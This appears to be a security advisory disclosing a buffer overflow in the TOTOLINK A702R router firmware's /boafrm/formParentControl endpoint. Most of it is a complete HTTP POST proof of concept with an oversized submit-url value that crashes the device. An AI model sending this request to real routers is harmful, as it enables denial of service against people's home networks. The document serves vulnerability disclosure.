


### Overview

- Vendor : TOTOLINK
- Product : A702R
- Version : TOTOLINK-A702R-Ee-V4.0.0-B20211108.1423.web
- Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/220/ids/36.html

### Vulnerability details

A buffer overflow vulnerability exists in the A702R router (firmware version V4.0.0-B20211108.1423) in the sub_418030 , sub_40BB08 function via the /boafrm/formParentControl endpoint, which can cause the program to crash.





### PoC

```
POST /boafrm/formParentControl HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1046
Origin: http://192.168.0.1
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i

sessionCheck=e914291d4b2077b6baa28738358adb5c&submit-url=http://aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&status=1&modPCRule=&delPCRule=&urlNum=0&modSelect=&modRuleStatus=&enabled=1&deviceName=&macAddr=&mac=&enableAccess=1&monday=0&tuesday=0&wednesday=0&thrusday=0&friday=0&saturday=0&sunday=0&restrictType=0&addPCUrl=%E5%BA%94%E7%94%A8
```


